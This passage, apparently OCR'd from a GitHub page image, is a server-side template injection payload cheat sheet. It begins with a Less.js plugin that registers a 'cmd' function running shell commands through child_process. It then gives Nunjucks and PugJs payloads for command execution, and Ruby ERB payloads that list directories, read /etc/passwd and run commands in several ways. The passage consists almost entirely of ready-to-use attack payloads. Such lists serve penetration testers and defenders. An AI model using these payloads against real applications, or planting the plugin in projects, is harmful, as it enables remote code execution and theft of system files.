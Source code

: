 (> v3)

```js
//Vulnerable plugin (3.13.1)
registerPlugin({
    install: function(less, pluginManager, functions) {
        functions.add('cmd', function(val) {
            return global.process.mainModule.require('child_process').execSync(val.value).toString();
        });
    }
})
```

#### Nunjucks

Command execution

```js
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
```

#### PugJs

Command execution

```js
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('id')}()}
```



### Ruby

#### ERB

List files and directories

```ruby
<%= Dir.entries('/') %>
```

Read file

```ruby
<%= File.open('/etc/passwd').read %>
```

Command execution

```ruby
<%= system("id") %>

<%= `id` %>

<%= IO.popen('id').readlines()  %>

<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('id') %><%= @b.readline()%>

<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('id') %><%= @c.readline()%>
```

